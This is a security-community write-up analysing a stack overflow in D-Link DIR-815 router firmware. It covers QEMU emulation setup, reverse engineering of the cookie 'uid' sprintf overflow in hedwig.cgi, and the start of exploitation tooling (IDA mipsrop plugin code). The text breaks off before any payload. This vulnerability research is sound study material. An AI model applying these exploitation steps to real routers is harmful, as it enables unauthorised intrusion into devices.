# DLink 645路由器栈溢出漏洞分析与复现-先知社区

> **来源**: https://xz.aliyun.com/news/18441  
> **文章ID**: 18441

---

## 准备阶段

首先是下载固件，固件下载链接

[File DIR-815\_FIRMWARE\_1.01.ZIP — Firmware for D-link DIR-815](https://rebyte.me/en/d-link/89510/file-592084/)

处理固件，直接 binwalk 解压

```
binwalk -Me DIR-815.bin
```

解压后得到文件系统，通过查看其 `/bin/busybox`发现是 `MIPS32`，小端序

使用qemu-system-mipsel从系统角度进行模拟，就需要一个mips架构的内核镜像和文件系统。可以在如下网站下载：

[Index of /~aurel32/qemu/mipsel](https://people.debian.org/~aurel32/qemu/mipsel/)



编写一个 `qemu`启动脚本 run.sh

```
sudo qemu-system-mipsel \
-M malta \
-kernel vmlinux-3.2.0-4-4kc-malta \
-hda debian_squeeze_mipsel_standard.qcow2 \
-append "root=/dev/sda1 console=tty0" \
-net nic \
-net tap \
-nographic \
```

启动后直接输入用户/密码 root/root user/user 即可成功登录

接下来需要我们在宿主机创建一个网卡，使得 `qemu`内能和宿主机进行通信

宿主机新建如下脚本保存为 `net.sh`后运行

```
sudo ip tuntap add dev tap0 mode tap
sudo ip link set tap0 up
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -F
sudo iptables -X
sudo iptables -t nat -F
sudo iptables -t nat -X
sudo iptables -t mangle -F
sudo iptables -t mangle -X
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo iptables -t nat -A POSTROUTING -o ens33 -j MASQUERADE
sudo iptables -I FORWARD 1 -i tap0 -j ACCEPT
sudo iptables -I FORWARD 1 -o tap0 -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo ifconfig tap0 192.168.100.254 netmask 255.255.255.0

```

可以使用`ip a`指令检查是否成功配置



可以看到已经成功配置好了主机

接着我们开始配置 `qemu`虚拟系统中的路由，在 `qemu`虚拟系统新建如下脚本 `net.sh` 并运行

```
#!/bin/bash
ifconfig eth0 192.168.100.2 netmask 255.255.255.0
route add default gw 192.168.100.254
```

在`qemu`虚拟系统中使用`ip a`命令查看`eth0`地址是否更改为`192.168.100.2`



到这里`qemu`虚拟系统就应该可以和宿主机 相互`ping`通了





我们可以先把文件系统进行压缩

```
tar -czvf squashfs-root.tar squashfs-root
```

接下来我们可以在宿主机起一个 `http`服务供 `qemu`系统和主机之间传输文件

```
python3 -m http.server
```



在`qemu`中直接`wget`下载这个文件



在`qemu`中 `root` 目录下解压

```
tar -xzvf squashfs-root.tar
```

## 启动服务

在`qemu`中`squashfs-root`目录下新建一个`http_conf`服务，其中的 `ip``port`需要换成自己的

```
Umask 026
PIDFile /var/run/httpd.pid
LogGMT On  #开启log
ErrorLog /log #log文件

Tuning
{
    NumConnections 15
    BufSize 12288
    InputBufSize 4096
    ScriptBufSize 4096
    NumHeaders 100
    Timeout 60
    ScriptTimeout 60
}

Control
{
    Types
    {
        text/html    { html htm }
        text/xml    { xml }
        text/plain    { txt }
        image/gif    { gif }
        image/jpeg    { jpg }
        text/css    { css }
        application/octet-stream { * }
    }
    Specials
    {
        Dump        { /dump }
        CGI            { cgi }
        Imagemap    { map }
        Redirect    { url }
    }
    External
    {
        /usr/sbin/phpcgi { php }
    }
}


Server
{
    ServerName "Linux, HTTP/1.1, "
    ServerId "1234"
    Family inet
    Interface eth0  #对应qemu仿真路由器系统的网卡
    Address 192.168.100.2 #qemu仿真路由器系统的IP
    Port "1234" #对应未被使用的端口
    Virtual
    {
        AnyHost
        Control
        {
            Alias /
            Location /htdocs/web
            IndexNames { index.php }
            External
            {
                /usr/sbin/phpcgi { router_info.xml }
                /usr/sbin/phpcgi { post_login.xml }
            }
        }
        Control
        {
            Alias /HNAP1
            Location /htdocs/HNAP1
            External
            {
                /usr/sbin/hnap { hnap }
            }
            IndexNames { index.hnap }
        }
    }
}


```

然后在物理机上 `/opt/tools/mipsel`目录（没有的话就自己创建吧）中新建 `init.sh` 文件，写入如下配置,给这个`init.sh`，给 可执行权限，然后将其执行

```
#!/bin/bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -F
sudo iptables -X
sudo iptables -t nat -F
sudo iptables -t nat -X
sudo iptables -t mangle -F
sudo iptables -t mangle -X
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -I FORWARD 1 -i tap0 -j ACCEPT
sudo iptables -I FORWARD 1 -o tap0 -m state --state RELATED,ESTABLISHED -j ACCEPT

```

然后在 `qemu` 中的 `squashfs-root` 目录下创建 `init.sh` 文件，写入下面的内容。给可执行权限，然后执行

```
#!/bin/bash
echo 0 > /proc/sys/kernel/randomize_va_space
cp http_conf /
cp sbin/httpd /
cp -rf htdocs/ /
mkdir /etc_bak
cp -r /etc /etc_bak
rm /etc/services
cp -rf etc/ /
cp lib/ld-uClibc-0.9.30.1.so  /lib/
cp lib/libcrypt-0.9.30.1.so  /lib/
cp lib/libc.so.0  /lib/
cp lib/libgcc_s.so.1  /lib/
cp lib/ld-uClibc.so.0  /lib/
cp lib/libcrypt.so.0  /lib/
cp lib/libgcc_s.so  /lib/
cp lib/libuClibc-0.9.30.1.so  /lib/
cd /
rm -rf /htdocs/web/hedwig.cgi
rm -rf /usr/sbin/phpcgi
rm -rf /usr/sbin/hnap
ln -s /htdocs/cgibin /htdocs/web/hedwig.cgi
ln -s /htdocs/cgibin /usr/sbin/phpcgi
ln -s  /htdocs/cgibin /usr/sbin/hnap
./httpd -f http_conf
```

这里直接在宿主机测试一下，成功启动了 `httpd`服务：



这里访问失败是因为hedwig.cgi服务没有收到请求，需要提前配置qemu虚拟环境中的环境变量。

配置环境变量：

```
export CONTENT_LENGTH="100"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export REQUEST_METHOD="POST"
export REQUEST_URI="/hedwig.cgi"
export HTTP_COOKIE="uid=1234"
```

```
htdocs/web/hedwig.cgi
```

​

​

可以正常收到内容。最后，退出`qemu`的时候，需要运行 `fin.sh`脚本恢复`/etc`文件夹

```
#!/bin/bash
rm -rf /etc
mv /etc_bak/etc /etc
rm -rf /etc_bak
```

## 逆向分析二进制文件

从漏洞报告得知，出现问题的二进制文件



直接查找，在 `/htdocs/web/hedwig.cgi`找到了

```
find ./ -name "hedwig.cgi"
```

通过`ls -l`查看一下，`/htdocs/web/hedwig.cgi`是`/htdocs/cgibin`的软链接，因此，我们需要逆向分析的二进制文件是`/htdocs/cgibin`，从文件系统里提取出来，进行分析



先进入到`main`函数中：



再走到`hedwigcgi_main`函数：



这个函数会对`url`先进行解析，然后将`POST`的内容读入进来，再通过`sub_409A6C`函数进行解析。

在`cgibin_parse_request`函数内：

​

这里会获取圈出的几个环境变量，不过和后面的栈溢出漏洞关系都不大，但是不能没有，需要随便输入一点东西，具体原因之后会分析。



接着，就会走到`sess_get_uid`函数：



里面存在对环境变量`HTTP_COOKIE`的获取



对`HTTP_COOKIE`中的`=`的前后进行了分离



可以看见，`=`前面的内容被存入了`v2`，后面的内容被存入了`v4`，最后会对`v2`中的内容进行一个判断： 也是判断等号前面的内容是否是 `uid`，判断通过后，就会将`=`后面的字符串拼接入

`a1`，也就是主函数传入的参数 `v4`



接着就到了一个可能发生栈溢出的漏洞点：



这里的 `v6`就是 `v4`中的字符串，也就是`cookie`中`uid=`之后的内容，这里是用户可以自由控制的，并且`v27`数组的大小仅有 `0x400`大小，因此是非常容易造成缓冲区溢出的

后面还能发现一个类似的`sprintf`：



这里的`v20`仍然是`v4`,继续观察，发现`v4`在这俩`sprintf`之间并未有任何修改，也就是说，这里的 `v20` 仍然是`cookie`中`uid=`后面的字符串，如果能走到这第二个`sprintf`的话，那么这里才是真正的溢出漏洞点，因为仍然是`v27`数组的溢出，两次拼接的字符串又一样，所以这里能覆盖上一次`sprintf`的内容。

​

容易看出，如果能走到第二个`sprintf`的话，就需要过这两个判断：



这第一个判断需要有`/var/tmp`这个目录，这个在真机上是有的，因此为了更真实地模拟环境，我们需要在解压后得到的文件系统内创建一个`/var/tmp`文件夹，这样`cgibin`才能在此路径下创建`temp.xml`文件用于数据的写入。

第二个判断`haystack`的值在这之前只有`cgibin_parse_request`的第一个参数`sub_409A6C`中可对其操作：



这个`sub_409A6C`函数需要`POST`传入内容的时候才能走到，那么要使得`POST`传入内容，也就要走到`cgibin_parse_request`中的这里：





这里跳转到的`sub_403B10`函数后，才有对`POST`内容的读入，并调用到`sub_409A6C`：



在`sub_403B10`函数中走到的`sub_402B40`函数，其中这里的`v9`函数指针就是指向的`sub_409A6C`函数。



只要走到这里，`haystack` 就会被赋值成 `=` 前面字符串的地址。从而绕过 `if ( !haystack )` 这个判断。



再回到`cgibin_parse_request`函数中，要走到读入`POST`内容的那里，就必须要使得`v9!=-1`才行，再往`cgibin_parse_request`函数上面看看：

因此，环境变量`REQUEST_URI`中也必须有内容才行，这里环境变量`CONTENT_TYPE`仍然是老规矩`application/x-www-form-urlencoded`，不再多分析了。



总结一下赋值 `haystack` 的函数调用链 ：`cgibin_parse_requeset -> 403b10 -> 402b40 -> 函数指针v9`

满足了以上条件，就能顺利地走到第二个`sprintf`了，也就是**真机环境中真正的栈溢出漏洞点**。

## 漏洞利用

插件 `mipsrop`

复制以下代码到ida的plugins目录中，并命名为mipsrop.py：

<https://github.com/tacnetsol/ida/blob/master/plugins/mipsrop/mipsrop.py>

修改82行`from shims import ida_shims`为`import ida_shims`

复制以下代码到ida的plugins目录中，并命名为ida\_shims.py：

```
import idc
import idaapi

try:
    import ida_bytes
except ImportError:
    ida_bytes = None

try:
    import ida_name
except ImportError:
    ida_name = None

try:
    import ida_kernwin
except ImportError:
    ida_kernwin = None

try:
    import ida_nalt
except ImportError:
    ida_nalt = None

try:
    import ida_ua
except ImportError:
    ida_ua = None

try:
    import ida_funcs
except ImportError:
    ida_funcs = None


def _get_fn_by_version(lib, curr_fn, archive_fn, archive_lib=None):
    if idaapi.IDA_SDK_VERSION >= 700:
        try:
            return getattr(lib, curr_fn)
        except AttributeError:
            raise Exception('%s is not a valid function in %s' % (curr_fn,
                                                                  lib))
    use_lib = lib if archive_lib is None else archive_lib
    try:
        return getattr(use_lib, archive_fn)
    except AttributeError:
        raise Exception('%s is not a valid function in %s' % (archive_fn,
                                                              use_lib))
def print_insn_mnem(ea):
    fn = _get_fn_by_version(idc, 'print_insn_mnem', 'GetMnem')
    return fn(ea)

def print_operand(ea, n):
    fn = _get_fn_by_version(idc, 'print_operand', 'GetOpnd')
    return fn(ea, n)

def define_local_var(start, end, location, name):
    fn = _get_fn_by_version(idc, 'define_local_var', 'MakeLocal')
    return fn(start, end, location, name)

def find_func_end(ea):
    fn = _get_fn_by_version(idc, 'find_func_end', 'FindFuncEnd')
    return fn(ea)


def is_code(flag):
    fn = _get_fn_by_version(ida_bytes, 'is_code', 'isCode', idaapi)
    return fn(flag)


def get_full_flags(ea):
    fn = _get_fn_by_version(ida_bytes, 'get_full_flags', 'getFlags', idaapi)
    return fn(ea)


def get_name(ea):
    fn = _get_fn_by_version(idc, 'get_name', 'Name')

    if idaapi.IDA_SDK_VERSION > 700:
        return fn(ea, ida_name.GN_VISIBLE)
    return fn(ea)


def get_func_off_str(ea):
    fn = _get_fn_by_version(idc, 'get_func_off_str', 'GetFuncOffset')
    return fn(ea)


def jumpto(ea, opnum=-1, uijmp_flags=0x0001):
    fn = _get_fn_by_version(ida_kernwin, 'jumpto', 'Jump', idc)
    if idaapi.IDA_SDK_VERSION >= 700:
        return fn(ea, opnum, uijmp_flags)
    return fn(ea)


def ask_yn(default, format_str):
    fn = _get_fn_by_version(ida_kernwin, 'ask_yn', 'AskYN', idc)
    return fn(default, format_str)


def ask_file(for_saving, default, dialog):
